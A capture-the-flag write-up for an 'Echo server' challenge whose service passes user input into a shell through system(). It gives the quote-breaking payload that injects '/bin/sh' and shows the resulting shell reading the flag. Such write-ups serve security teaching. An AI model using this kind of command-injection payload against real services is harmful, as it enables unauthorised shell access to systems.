 # Echo server

> > Pwn - 200pts
> 
> I have created a super-cool echo server - it can even do math! Pretty rad and secure, right!?
> 
> You can find the echo server at: `138.68.99.225:1337`
> 
> PS: connect using `nc <ip> <port>`
> 
> File: [system](./system)

## Writeup

After tracing or reverse engineering, we can see the user input is executed as such:

`system("python2 -c 'print <user input>'")`

This mean that we can get a reverse shell by prematurely terminating the python command and spawning a shell, but also terminating the final single quote:

`"kake"'; /bin/sh; echo 'torsk`

Yielding the shell command line:

`python2 -c 'print "kake"'; /bin/sh; echo 'torsk'`

This will present the user with a shell, and the flag can be read:

```
cat flag
UiTHack{user_input_into_system_is_dangerous}
```

Yielding the flag:

`UiTHack{user_input_into_system_is_dangerous}`
